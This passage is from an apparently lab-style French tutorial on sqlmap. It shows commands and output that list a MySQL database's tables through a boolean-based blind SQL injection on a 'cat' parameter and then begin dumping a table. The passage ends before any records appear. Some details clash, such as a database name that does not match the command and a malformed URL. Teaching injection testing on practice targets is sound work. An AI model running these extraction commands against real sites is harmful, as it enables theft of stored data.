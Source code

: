 Après avoir exécuté la commande ci-dessus, nous avons obtenu deux noms de base de données. Sélectionnez la base de données des `users` et récupérez les tables qu'elle contient. Nous définirons la base de données après l'indicateur `-D` et utiliserons le flag `--tables` à la fin pour extraire tous les noms de tables.

```bash
           
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:50:46] [INFO] resuming back-end DBMS' mysql' 
[08:50:46] [INFO] testing connection to the target URL
[08:50:46] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:50:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:50:46] [INFO] fetching tables for database: 'users'
Database: acuart
[3 tables]
+-----------+
| johnath   |
| alexas    |
| thomas    |     
+-----------+

[text removed]
```

Maintenant que nous avons tous les noms de tables disponibles de la base de données, vidons les enregistrements présents dans la table `Thomas`. Pour ce faire, nous définirons la base de données avec l'option `-D`, la table avec l'option `-T`, et pour **extraire les enregistrements de la table**, nous utiliserons l'option `--dump`.

```bash
           
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:51:48] [INFO] resuming back-end DBMS' mysql' 
[08:51:48] [INFO] testing connection to the target URL
[08:51:49] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
```